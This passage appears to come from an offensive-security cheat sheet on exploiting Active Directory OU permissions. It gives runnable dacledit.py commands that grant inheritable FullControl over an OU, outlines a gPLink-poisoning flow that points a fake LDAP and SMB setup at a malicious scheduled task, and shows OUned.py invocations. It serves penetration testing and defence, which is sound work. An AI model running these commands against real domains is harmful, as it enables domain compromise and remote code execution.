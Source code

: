 * [synacktiv/OUned](https://github.com/synacktiv/OUned) - The OUned project automating Active Directory Organizational Units ACL exploitation through gPLink poisoning


### Non privileged objects

A user having the `GenericAll` right (and thus `WriteDACL` permissions) over an OU could add a `FullControl` ACE to the OU and specify that this ACE should be inherited, which will effectively lead to the compromise of all child objects since they will inherit said ACE. 

* Grant `Full Control` on **SERVERS** OU
	```ps1
	dacledit.py -action 'write' -rights 'FullControl' -inheritance -principal 'username' -target-dn 'OU=SERVERS,DC=lab,DC=local' 'lab.local'/'username':'Password1'
	```

*  Verify that we have `Full Control` ACL on **AD01-SRV1** inside **SERVERS**
	```ps1
	dacledit.py -action 'read' -principal 'username' -target-dn 'CN=AD01-SRV1,OU=SERVERS,DC=lab,DC=local' 'lab.local'/'username':'Password1'
	```

:warning: ACE inheritance from parent objects is disabled for `adminCount=1`


### Privileged objects

**Requirements**:

- `GenericWrite` OR `Manage Group Policy` links
- Create a machine account
- Add new DNS records


**Attack's Flow**: gPLink -> Attacker GPC FQDN -> GPT configuration files in Attacker SMB share -> execute a malicious scheduled task

* Edit the `gPLink` value to include a GPC FQDN pointing the attacker machine
* Create a fake LDAP server mimicking the real one, but with a custom GPC
* GPC's gPCFileSysPath value is pointing to the attacker SMB share
* The SMB share is serving GPT configuration files including a malicious scheduled task


**Exploit**:

Check this [blog post from Synacktiv](https://www.synacktiv.com/publications/ounedpy-exploiting-hidden-organizational-units-acl-attack-vectors-in-active-directory) to correctly setup all the requirements for this attack to succeeded.

```ps1
sudo python3 OUned.py --config config.ini
sudo python3 OUned.py --config config.example.ini --just-coerce
```


## References

* [ACE to RCE - @JustinPerdok - July 24, 2020](https://sensepost.com/blog/2020/ace-to-rce/)
* [Access Control Entries (ACEs) - The Hacker Recipes - @_nwodtuhs](https://www.thehacker.recipes/active-directory-domain-services/movement/abusing-aces)
* [Escalating privileges with ACLs in Active Directory - April 26, 2018 - Rindert Kramer and Dirk-jan Mollema](https://blog.fox-it.com/2018/04/26/escalating-privileges-with-acls-in-active-directory/)
* [Training - Attacking and Defending Active Directory Lab - Altered Security](https://www.alteredsecurity.com/adlab)
* [OU having a laugh? - Petros Koutroumpis - 6 November, 2019](https://labs.withsecure.com/publications/ou-having-a-laugh)
* [OUNED.PY: EXPLOITING HIDDEN ORGANIZATIONAL UNITS ACL ATTACK VECTORS IN ACTIVE DIRECTORY - Quentin Roland - 19/04/2024](https://www.synacktiv.com/publications/ounedpy-exploiting-hidden-organizational-units-acl-attack-vectors-in-active-directory)